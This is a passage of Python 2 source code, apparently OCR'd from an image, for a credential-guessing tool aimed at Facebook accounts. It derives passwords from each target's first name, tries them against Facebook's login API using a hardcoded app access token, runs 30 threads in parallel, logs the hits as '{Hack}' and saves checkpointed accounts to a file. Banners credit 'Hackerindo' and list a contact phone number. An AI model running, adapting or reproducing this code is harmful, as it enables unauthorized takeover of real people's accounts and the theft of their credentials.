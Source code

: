 															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = (j['first_name']+'sharma')
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96mHackerCyber\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
	print "  \033[1;91m«---•◈•---Developed By Hackerindo--•◈•---»" #Dev:hackerindo
	print '\033[1;91mProcess Has Been Completed\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print """
             ▒▒▒███▒███▒███▒███▒▒
             ▒▒▒▒▒█▒█▒█▒▒▒█▒█▒█▒▒
             ▒▒▒███▒█▒█▒███▒█▒█▒▒
             ▒▒▒█▒▒▒█▒█▒█▒▒▒█▒█▒▒
             ▒▒▒███▒███▒███▒███▒▒
◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤.
: \033[1;93m.hackerindo  HackerCyber.... \033[1;93m :
◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤.' 
                whatsapp Num
               +6281260193172"""
	
	raw_input("\n\033[1;93m[\033[1;91mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()
